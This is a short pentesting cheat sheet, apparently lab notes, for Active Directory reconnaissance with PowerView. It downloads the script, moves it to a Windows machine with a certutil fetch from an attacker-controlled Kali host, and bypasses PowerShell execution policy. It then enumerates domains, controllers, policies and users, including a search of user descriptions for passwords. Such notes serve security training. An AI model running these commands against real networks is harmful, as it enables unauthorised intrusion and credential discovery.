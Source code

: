 **PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows commands to perform useful Windows domain functionality.**

```bash - kali
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```


https://raw.githubusercontent.com/BC-SECURITY/Empire/refs/heads/main/empire/server/data/module_source/situational_awareness/network/powerview.ps1


Transfer from Kali to Windows:
```batch - windows
certutil -urlcache -split -f http://$KALI/PowerView.ps1 C:\Users\Groot.MARVEL\Desktop\PowerView.ps1
```

Bypass PowerShell Execution Policy.
```powershell - windows
powershell -ep bypass
```

Import PowerView module.
```powershell
. .\PowerView.ps1
```

Get domain details.
```powershell
Get-NetDomain
```

Get Domain Controller details.
```powershell
Get-NetDomainController
```

Get Domain Policy details.
```powershell
Get-DomainPolicy
```

Get Domain Policy details, by key value.
```powershell
(Get-DomainPolicy). "systemaccess"
```

Get users.
```powershell
Get-NetUser
```

View descriptions for possible passwords.
```powershell
Get-NetUser | select cn
```

View sam account names.
```powershell
Get-NetUser | select samaccountname
```
